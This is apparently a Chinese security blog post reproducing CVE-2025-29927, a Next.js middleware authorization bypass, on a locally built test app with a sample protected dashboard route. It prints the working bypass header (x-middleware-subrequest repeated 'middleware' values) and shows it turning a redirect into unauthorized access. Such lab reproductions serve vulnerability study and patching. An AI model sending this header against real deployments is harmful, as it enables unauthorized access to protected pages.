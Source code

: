 #  【漏洞复现】Next.js中间件权限绕过漏洞 CVE-2025-29927   
原创 仇辉攻防  仇辉攻防   2025-04-12 11:03  
  
什么是Next.js？  
> Next.js 是由 Vercel 开发的基于 React 的现代 Web 应用框架，具备前后端一体的开发能力，广泛用于开发 Server-side Rendering (SSR) 和静态站点生成（SSG）项目。Next.js 支持传统的 Node.js 模式和基于边缘计算（Edge Function）的运行模式，适用于轻量、高性能的服务逻辑。  
  
  
首先百度，这是个啥玩意，找到官网，进入看看  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhQMddc5bReD5IcbNLQFKAushzDDibgNicXehCKzlA7W4d0HJY9zia3v4sg/640?wx_fmt=png&from=appmsg "")  
  
官网链接：  
```
https://www.nextjs.cn/learn/basics/create-nextjs-app?utm_source=next-site&utm_medium=homepage-cta&utm_campaign=next-website
```  
  
不用多说了，介绍得贼详细！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhyU7m5ZxJvAx0Xerbz2H47fibyghCSTBib1ib7v9MQja9HDs9dJUQGr85A/640?wx_fmt=png&from=appmsg "")  
  
环境搭建  
  
1、部署Next.js  
  
漏洞复现，首先需要搭建环境，刚好官网有入门教程，按照教程走起！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhUp2eQqwgn99jWjwSOwLjnLtIt6Ysej3gz8A5icBRDCjGZaZwdBZkj0g/640?wx_fmt=png&from=appmsg "")  
  
首先安装Node.js ，下载链接：  
```
https://nodejs.org/en/
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhy8m3dhSnJFKQV8LCmZV99WeAvz0wGLNwmtuCZP68sNqPLQCGrJRlQA/640?wx_fmt=png&from=appmsg "")  
  
安装完Node.js，由于我是windows系统，按照教程继续安装Git Bash，并运行  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhLnYXrHKwUgylJ4wsjA7yqjx4Ix4tIJbj3lyCLRSA70hVZgGUgtKt6Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhce1vfkibtzVuebyRfwSMibGzRTQGgb6FShOH1xM9mzRR39RAtQ5vgWLA/640?wx_fmt=png&from=appmsg "")  
  
至此，关闭官网教程，下一步安装符合漏洞版本的Next.js，漏洞版本如下：  
  
11.1.4 <= Next.js <= 13.5.6  
  
14.0.0 <= Next.js <= 14.2.24  
  
15.0.0 <= Next.js <= 15.2.2  
  
有请ChatGPT，有AI真好  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhLPaxTuOMPMM6UCoCHygvyACC0W6M5oMUCiapUETbXDumXcEMrap2JYg/640?wx_fmt=png&from=appmsg "")  
  
直接复制如下命令，安装14.1.1  
```
npm install next@14.1.1
```  
  
安装完成  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhcfEf97ia4OX76THfYmFMzmibyZZylOjkzUJsAsEAranxBn51urRTNtJA/640?wx_fmt=png&from=appmsg "")  
  
然后运行  
```
npm install
```  
  
启动Next.js项目  
```
npm run dev
```  
  
启动时可能出现如图报错  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhFhKLLdDsDXtpelX2lUbYfnJjqF62MjyFdjUOoMm8MAeUTIJ331micuA/640?wx_fmt=png&from=appmsg "")  
  
问题抛给GPT解决  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhOLKIvO9OUEicOpAdZqNQkSz0lFnLq9ht6MicL7DolhwMJSS1X7GARRLg/640?wx_fmt=png&from=appmsg "")  
  
完善配置文件 package.json   
```
{
  "dependencies": {
    "next": "^14.1.1"
  },
  "scripts": {
  "dev": "next dev",
  "build": "next build",
  "start": "next start"
  }
}
```  
  
再次启动，出现新的报错  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhEmhy9yoZrwxuCguZgzvZSr32qjibV4fKo4UvG8NjEibAgH462icudicWibg/640?wx_fmt=png&from=appmsg "")  
  
问题再次抛给GPT  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhBIE4JjrVqpXQOh6RJBOjQcrywZMJ8KxdHYZFPoDhsxvibqdPlJ8BQWw/640?wx_fmt=png&from=appmsg "")  
  
继续完善  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdh9ibeRfV6l2kicHztfPYLIlr8ialITzGueibk7yaKd8A3tkx5UNrEQUc4kg/640?wx_fmt=png&from=appmsg "")  
  
成功启动  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhUTibFmJmfeFTZ6t6ib2wuIFJPYWbtZnAQJOmcIrYdjWeG0gCza9WTicPg/640?wx_fmt=png&from=appmsg "")  
  
  
2、配置利用场景  
```
#赛博昆仑漏洞通告
https://mp.weixin.qq.com/s/L43SBRSlQLSfCtYDnfg2SQ
```  
> 近日，赛博昆仑CERT监测到Next.js 中间件认证绕过漏洞（CVE-2025-29927）的漏洞情报。  
当配置为使用中间件进行身份验证和授权时，未经过身份认证的攻击者可以绕过Next.js 应用程序中的授权检查。  
  
  
把配置的任务交给GPT  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhEUseB3lBicaq5hbkLRu14gzImg4OfwekrRvOibfrNQwylVYremZ3Y5Cw/640?wx_fmt=png&from=appmsg "")  
  
首先创建中间件middleware.js ，定义受保护的路径。放在根目录，与package.json同级  
```
import { NextResponse } from "next/server";

// 定义受保护的路径
const protectedRoutes = ["/dashboard", "/admin"];

export function middleware(req) {
  const { pathname } = req.nextUrl;

  // 获取用户的身份令牌（可以从 Cookie、Session 或 Headers 获取）
  const token = req.cookies.get("authToken")?.value;

  // 如果是受保护路径但没有 token，则重定向到登录页
  if (protectedRoutes.includes(pathname) && !token) {
    return NextResponse.redirect(new URL("/login", req.url));
  }

  return NextResponse.next();
}

// 只应用于某些路由
export const config = {
  matcher: ["/dashboard/:path*", "/admin/:path*"], // 保护的路由
};
```  
  
其次，创建一个保护页面dashboard.js，放到pages目录下  
```
export default function Dashboard() {
  return <h1>这是受保护的 Dashboard 页面</h1>;
}
```  
  
最后，设置登录逻辑，创建一个login页面 （其实，可以不用，顶多404呗，不影响复现）  
```
import { useRouter } from "next/navigation";

export default function LoginPage() {
  const router = useRouter();

  const handleLogin = async () => {
    // 假设用户成功登录
    document.cookie = "authToken=your_token; path=/"; // 设置身份验证 Cookie
    router.push("/dashboard"); // 跳转到受保护页面
  };

  return (
    <div>
      <h1>请登录</h1>
      <button onClick={handleLogin}>登录</button>
    </div>
  );
}
```  
  
一切就绪，测试一下，访问dashboard页面，没有授权，正常跳转到登录页面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhgiaic9jna8wnPGIeS27gbIuBcPRFlavzTpyjcDdtiaibYn530QyogicichJQ/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现  
```
#微步漏洞通告
https://mp.weixin.qq.com/s/i9fckopkdJzS8IYII8qgNg
```  
> 当在 next.js应用中使用middleware 时，在请求头中加入特定的 x-middleware-subrequest 请求头即可绕过 middleware 中的逻辑。例如当使用 middleware 进行身份验证与授权，可利用该漏洞绕过身份验证。  
  
  
那去网上搜一下公开的POC，大厂CERT漏洞公告通常不会给出来，复现截图关键部位基本都打码，需要自己去网上搜寻一下，以下是我找到的公开POC  
```
https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass
```  
  
如图，不同版本，POC还不太一样  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdh0Mad0pribO79dL8uaicZHVpdclric1kj9B53x0tgz0ZAdON5Yaj5TwCOg/640?wx_fmt=png&from=appmsg "")  
  
根据我的版本，找到POC  
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```  
  
先发一个正常的包，返回307跳转  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdh1QN9IvYXwGib2ojvjaPje03n8JZzeD56IEtiarOibH5nzfJGUfojNAeeg/640?wx_fmt=png&from=appmsg "")  
  
使用POC，返回200，未授权访问dashboard受保护的页面，漏洞复现完成！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhjMPBiaMpfBmhQJfCHnkuDjUcTeVFABb9x5nHnhicGxXuaFk65cJLEAdQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIuyaqvMuQySprCI7ALZJdhgZBdIDT3vHUYCs9g3FSa7EPiaxJQh0oyu5wscz5X58D3ibJgtAOvnib1A/640?wx_fmt=png&from=appmsg "")  
  
  
